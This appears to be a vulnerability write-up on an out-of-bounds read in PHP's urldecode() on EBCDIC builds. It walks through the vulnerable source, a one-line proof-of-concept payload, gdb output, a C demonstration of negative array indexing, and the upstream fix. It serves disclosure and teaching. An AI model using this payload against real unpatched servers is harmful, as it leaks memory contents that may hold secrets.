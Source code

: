 # Out-of-Bounds read in ``urldecode()``

## Details
* **Description**: "*In PHP versions 7.2.x below 7.2.30, 7.3.x below 7.3.17 and 7.4.x below 7.4.5, if PHP is compiled with EBCDIC support, ``urldecode()`` function can be made to access locations past the allocated memory, due to erroneously using signed numbers as array indexes.*" - In other words, if you type a negative hex value in a system with EBCDIC encoding enabled, you'll be able to leak memory ✨

* **CVSS3 Score**: 7.5 high

## Impact / Threat
This bug requires the vulnerable server to enable EBCDIC encoding, so it mainly affects Mainframe systems(yuck!) **and** possibly some flavors of IBM Cloud Instances which runs PHP (IBM created this encoding so they have support in their cloud environment environment as well. It was found to be enabled in cloud "flavors" such as *Linux z/OS*. References: [[#1]](https://cloud.ibm.com/docs/runtimes/php?topic=PHP-getting_started), [[#2]](https://www.ibm.com/support/knowledgecenter/zosbasics/com.ibm.zos.zappldev/zappldev_14.htm), [[#3]](https://www.ibm.com/support/knowledgecenter/SSLTBW_2.1.0/com.ibm.zos.v2r1.gxla100/encodesupport.htm)). 
 

## The bug / Exploitation

This is the source code of ``urldecode()``:

[ext/standard/url.c](http://git.php.net/?p=php-src.git;a=blob;f=ext/standard/url.c;h=fe6d7f9de1d69eaafd577518d92d899feb7145b0;hb=fe6d7f9de1d69eaafd577518d92d899feb7145b0#l548) @ line 548

```c
/* {{{ php_url_decode
 */
PHPAPI size_t php_url_decode(char *str, size_t len)
{
	char *dest = str;
	char *data = str;

	while (len--) {
		if (*data == '+') {
			*dest = ' ';
		}
		else if (*data == '%' && len >= 2 && isxdigit((int) *(data + 1))
				 && isxdigit((int) *(data + 2))) {
#ifndef CHARSET_EBCDIC
			*dest = (char) php_htoi(data + 1);
#else
			*dest = os_toebcdic[(char) php_htoi(data + 1)];
#endif
			data += 2;
			len -= 2;
		} else {
			*dest = *data;
		}
		data++;
		dest++;
	}
	*dest = '\0';
	return dest - str;
}

```

If  ``CHARSET_EBCDIC`` is defined (usually, on systems with EBCDIC encoding support), an Out-of-Bounds Read can occur.

Let's focus on the relevant parts of the function:
```c
PHPAPI size_t php_url_decode(char *str, size_t len)
{
	char *dest = str;
	char *data = str;
/*...more code...*/

#ifndef CHARSET_EBCDIC
			*dest = (char) php_htoi(data + 1);
#else
			*dest = os_toebcdic[(char) php_htoi(data + 1)]; // <--- oob read here
#endif

/* ... more code ... */
```
* ``os_toebcdic[256]`` is an array(or a map, i assume) used for decoding purposes. 
* To convert the string input into hex values, PHP uses ``php_htoi()`` and then convert the result into a signed byte(char).
* This signed number is then provided as an index to the ``os_toebcdic[]`` array. 
* There will be no OOB Read after the buffer because the max value of a byte is 0xff (==256), which is the same size as the ``os_toebcdic[]`` 
* However, the casting (in the second bullet) is done to a ``char`` and not an ``unsigned char``, which means that we can insert **negative hex values** to leak values that are found in the memory **BEFORE** our buffer. 




payload:
```php
<?
urldecode('%xfd'); //0xfd == -3, could be 0x80 for bigger OOB (which is -128 in dec, this is the minimum value of a signed byte. b10000000) 
?>
```

in gdb:

```
gdb-peda$ call php_htoi(data+1)
$42 = 0xfd

gdb-peda$ p/d (char)$42
$43 = -3
```
The array index is negative an memory will be leaked via the returned value of PHP's ``urldecode()`` 

## Understanding the Concept 

Let's take the following example program:
```c
#include<stdio.h>

int main()
{
        char text[255] = "ABCD";
        char buf[] = "QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ"; // not used in the program

        char c = 0xfc;  // signed char, can contain negative values (from -128 to 255)

        printf("%x", text[c]); // text[-3]
        return 0;
}
```

We are using ``c`` as an index specifier to ``text`` and print the value in hex.

The expected output will be a character from the ``text[]`` array, maybe A(``0x41``) or B(``0x42``), or maybe C(``0x43``), etc. Even if the attacker will manage to read **after** ``D``, he will not be able to read the contents of what is after ``text[255]`` in memory (because the maximum size of ``char c`` is 255). So what do we do? insert a negative value :D

The actual output is: ``0x51``, which is Q, and belongs to anohter variable in the program (``buf``).
It happens when an array index specifier is set to a negative value. In our case, ``c`` was set to ``0xfc`` (which is ``-3`` in dec)

In the following hexdump, you can see that ``buf`` is found right before our ``text[]`` array in the memory:
```
gdb-peda$ hexdump &buf

+0000 0xbffff4c5  51 51 51 51  51 51 51 51  51 51 51 51  51 51 51 51  │QQQQ│QQQQ│QQQQ│QQQQ│
...
+0020 0xbffff4e5  51 51 51 51  51 51 51 51  51 51 00 41  42 43 44 00  │QQQQ│QQQQ│QQ.A│BCD.│
+0030 0xbffff4f5  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
pwndbg>
+0040 0xbffff505  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
...
```

Hence, we jumped "backwards" when we inserted negative values in the array index specifier.

## The Fix

The PHP Development team turned the array index specifier to be an ``unsigned char`` to avoid negative values in array index specifiers. 

Same issue was found in ``php_raw_url_decode``

The commit: http://git.php.net/?p=php-src.git;a=blobdiff;f=ext/standard/url.c;h=1dd073e2bb423652821f351135b9582d76e175d5;hp=fe6d7f9de1d69eaafd577518d92d899feb7145b0;hb=9d6bf8221b05f86ce5875832f0f646c4c1f218be;hpb=14fcc813948254b84f382ff537247d8a7e5e0e62

![screenshot](./res/fix.png)


>Original report #79465: https://bugs.php.net/bug.php?id=79465&edit=2